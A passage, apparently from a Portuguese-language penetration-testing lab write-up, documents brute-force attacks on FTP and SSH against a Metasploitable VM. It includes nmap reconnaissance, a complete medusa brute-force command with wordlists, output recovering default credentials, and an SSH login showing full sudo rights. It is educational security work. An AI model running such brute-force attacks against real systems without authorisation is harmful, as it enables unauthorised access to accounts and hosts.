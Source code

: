 **✅ Acesso FTP confirmado! Possível ler/escrever arquivos.**

#### Vulnerabilidades Exploradas

1. **Credenciais padrão não alteradas** (msfadmin:msfadmin)
2. **Ausência de limitação de tentativas** (permitiu 267 tentativas)
3. **Sem bloqueio de IP** após múltiplas falhas
4. **Sem delay entre tentativas**
5. **FTP em texto plano** (sem criptografia)

---

### 4.2. Ataque de Força Bruta em SSH

#### Reconhecimento Inicial

```bash
$ nmap -sV -p 22 192.168.56.102

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
```

✅ **Serviço SSH detectado na porta 22**

#### Comando de Ataque

```bash
medusa -h 192.168.56.102 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M ssh \
       -t 4 \
       -v 6 \
       -f
```

#### Resultado do Ataque

```
ACCOUNT CHECK: [ssh] Host: 192.168.56.102 User: admin Password: 123456
ACCOUNT CHECK: [ssh] Host: 192.168.56.102 User: admin Password: password
...
ACCOUNT FOUND: [ssh] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

**✅ Credencial descoberta: `msfadmin:msfadmin`**
**⏱️ Tempo: ~22 segundos**
**🔢 Tentativas: 267**

#### Validação do Acesso

```bash
$ ssh msfadmin@192.168.56.102
msfadmin@192.168.56.102's password: 
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686

Last login: Mon Oct 21 10:15:32 2025 from 192.168.56.101
msfadmin@metasploitable:~$ whoami
msfadmin
msfadmin@metasploitable:~$ id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
msfadmin@metasploitable:~$ sudo -l
User msfadmin may run the following commands on this host:
    (ALL) NOPASSWD: ALL
```
